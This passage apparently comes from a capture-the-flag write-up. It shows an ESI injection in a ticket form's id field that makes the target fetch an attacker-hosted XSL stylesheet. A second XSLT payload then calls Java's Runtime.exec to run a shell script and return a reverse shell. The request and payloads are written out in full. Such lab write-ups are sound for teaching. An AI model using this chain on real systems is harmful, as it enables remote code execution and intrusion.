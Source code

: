 
This command would download a reverse shell and execute it. Now, we just need to append this to an existing ticket query like this to download and run the XML file we created:

```http
POST /ticket.php HTTP/1.1
Host: 10.129.85.76:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Origin: http://10.129.85.76:9001
Connection: close
Referer: http://10.129.85.76:9001/ticket.php
Cookie: PHPSESSID=nb64nmlnnesh3nc69h2s46l7uk
Upgrade-Insecure-Requests: 1



title=test&msg=test&id=TKT-1119;<esi:include src="http://localhost/" stylesheet="http://10.10.14.13/exe2.xsl"></esi:include>
```

This would download the XSL file we created. Afterwards, we need to create another one to run the file and execute commands via the same method.

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[bash /tmp/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

Our listener port would then receive a shell:

<figure><img src="../../../.gitbook/assets/image (2928).png" alt=""><figcaption></figcaption></figure>
